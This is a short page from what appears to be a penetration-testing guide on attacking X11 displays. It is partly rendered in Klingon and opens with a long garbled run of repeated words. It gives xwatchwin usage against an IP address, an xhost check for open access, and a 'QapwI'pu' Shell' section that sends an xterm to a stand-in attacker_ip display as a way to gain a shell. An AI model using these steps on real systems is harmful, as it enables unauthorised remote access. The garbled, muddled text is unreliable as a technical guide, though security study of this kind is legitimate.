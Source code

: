**'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'** **vaj** **'oH** **vay'** **'e'
```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
## QapwI'pu' Shell

### Introduction

In this section, we will discuss various techniques to obtain a shell on a target system through X11 vulnerabilities. X11 is a network protocol used for graphical user interfaces (GUI) in Unix-like operating systems.

### X11 Forwarding

X11 forwarding is a feature that allows the display of a graphical application running on a remote machine to be shown on a local machine. This feature can be exploited to gain access to the target system.

To enable X11 forwarding, use the `-X` or `-Y` option when connecting to the target system via SSH:

```
ssh -X user@target_ip
```

Once connected, you can run graphical applications on the target system, and the display will be forwarded to your local machine.

### X11 Server-Side Attack

In some cases, the target system may have an X11 server running with weak or no access control. This can be exploited to execute arbitrary commands on the target system.

To check if the target system has an X11 server running, use the `xhost` command:

```
xhost
```

If the output shows any access control disabled (`+` symbol), it means that the X11 server is vulnerable.

To exploit this vulnerability, set the `DISPLAY` environment variable to the attacker's IP address and execute the desired command:

```
export DISPLAY=attacker_ip:0
xterm
```
